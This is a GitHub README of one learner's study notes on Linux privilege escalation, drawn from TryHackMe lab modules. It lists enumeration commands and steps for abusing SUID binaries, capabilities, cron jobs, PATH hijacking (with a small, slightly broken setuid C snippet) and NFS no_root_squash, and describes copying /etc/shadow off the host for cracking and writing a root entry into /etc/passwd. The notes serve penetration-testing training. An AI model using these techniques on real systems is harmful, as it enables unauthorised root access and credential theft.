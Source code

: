 # Privilage Escalation Handbook
This is what I learnt TryHackMe's Jr Penetration Tester Path's privilage escalation modules

# Linux Privilage Escalation

# Enumeration
< Find Hostname >
  - hostname

< Find uname >
  - uname -a `for all information`
---------------------
Function Shortcut

- Kernel Name	-s
- Kernel Release	-r
- Kernel Version*	-v
- Network Node Name (Hostname)	-n
- Machine architecture	-m
- Processor architecture	-p
- Hardware Platform (OS architecture)	-i
- Operating System	-o
---------------------

< /proc/version > `provides information about the target system processes.`
 
< /etc/issues > `This file usually contains some information about the operating system but can easily be customized or changes.`
 
 < The “ps” command provides a few useful options. >
  - ps -A: `View all running processes`
  - ps axjf: `View process tree (see the tree formation until ps axjf is run below)`
  - ps aux: `The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.`
 
< env >
  - show environmental variables.
  - The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.
 
< sudo -l >
  - The target system may be configured to allow users to run some (or all) commands with root privileges.
 
< history >
  - can give us some idea about the target system

< netstat >
  - netstat -a: shows all listening ports and established connections.
  - netstat -at or netstat -au can also be used to list TCP or UDP protocols respectively.
  - netstat -l: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
  - netstat -s: list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol.
  - netstat -tp: list connections with the service name and PID information.
  - netstat -i: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.

< find >
  - find . -name flag1.txt: `find the file named “flag1.txt” in the current directory`
  - find /home -name flag1.txt: `find the file names “flag1.txt” in the /home directory`
  - find / -type d -name config: `find the directory named config under “/”`
  - find / -type f -perm 0777: `find files with the 777 permissions (files readable, writable, and executable by all users)`
  - find / -perm a=x: `find executable files`
  - find /home -user frank: `find all files for user “frank” under “/home”`
  - find / -mtime 10: `find files that were modified in the last 10 days`
  - find / -atime 10: `find files that were accessed in the last 10 day`
  - find / -cmin -60: `find files changed within the last hour (60 minutes)`
  - find / -amin -60: `find files accesses within the last hour (60 minutes)`
  - find / -size 50M: `find files with a 50 MB size`
  - find / -writable -type d 2>/dev/null: `Find world-writeable folders`
  - find / -perm -222 -type d 2>/dev/null: `Find world-writeable folders`
  - find / -perm -o w -type d 2>/dev/null: `Find world-writeable folders`
  - find / -name perl*
  - find / -name python*
  - find / -name gcc*
  - find / -perm -u=s -type f 2>/dev/null: `Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.`
 
# Automated Enumeration Tools

  - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
  - LinEnum: https://github.com/rebootuser/LinEnum
  - LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker: https://github.com/linted/linuxprivchecker

# Privilege Escalation: Kernel Exploits

  - Find version of system
  - Exploit-db: https://www.exploit-db.com
  - linux kernel: https://www.linuxkernelcves.com/cves
  - Google: https://www.google.com
  - Searchsploit
  
# Privilege Escalation: Sudo

  - sudo -l: `Check root privilages`
  - GTFObins: https://gtfobins.github.io/

# Privilege Escalation: SUID

  - find / -type f -perm -04000 -ls 2>/dev/null: `list files that have SUID or SGID bits set.`
  - GTFObins: https://gtfobins.github.io/
- *If you can view /etc/shadow and /etc/passwd, can copy to attacker machine and use JohnTheRipper to find credentials*
  - unshadow passwd.txt shadow.txt > passwords.txt
- *If you can write to /etc/passwd*
  - openssl passwd -1 salt THM password1
  - add "root:/bin/bash" to end of user in /etc/passwd

# Privilege Escalation: Capabilities

  - getcap -r / 2>/dev/null: `list enabled capabilities.`
  - GTFObins: https://gtfobins.github.io/

# Privilege Escalation: Cron Jobs

  - /etc/crontab: `read the file keeping system-wide cron jobs`
- *See if any files can be edited, to run a payload or start a reverse shell*

# Privilege Escalation: PATH

  - echo $PATH: `Show the PATH variable`
  1. What folders are located under $PATH
  2. Does your current user have write privileges for any of these folders?
  3. Can you modify $PATH?
  4. Is there a script/application you can start that will be affected by this vulnerability?
---------------------------
  path_exp.c:
  #include <unistd.h>
  void main()
  {
  setuid(0);
  setgid(0);
  system(thm); `any binary that will run /bin/bash`
  }
---------------------------
  - gcc path_exp.c -o path -w `compile the C script`
  - chmod u+s path
  - find / -writable 2>/dev/null: `search for writable folders`
- *if able to, add path to the $PATH env variable*
  - export PATH=/tmp:$PATH `replace {/tmp} with the path to add`

# Privilege Escalation: NFS

  - /etc/exports `List NFS (Network File Sharing) configuration. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.`
- *On attacker machine*
  - showmount -e <target-IP>
  - mkdir /tmp/backuponAttackerMachine
  - mount -o rw <target-IP>:<NFS-file> /tmp/backuponAttackerMachine `mount -o rw 10.10.10.19:/backups /tmp/backuponAttackerMachine.`
  - nano nfs.c `spawn a /bin/bash shell`
  - gcc nfs.c -o nfs -w `compile nfs.c`
  - chmod +s nfs  
  
# Windows Privilage Escalation
 
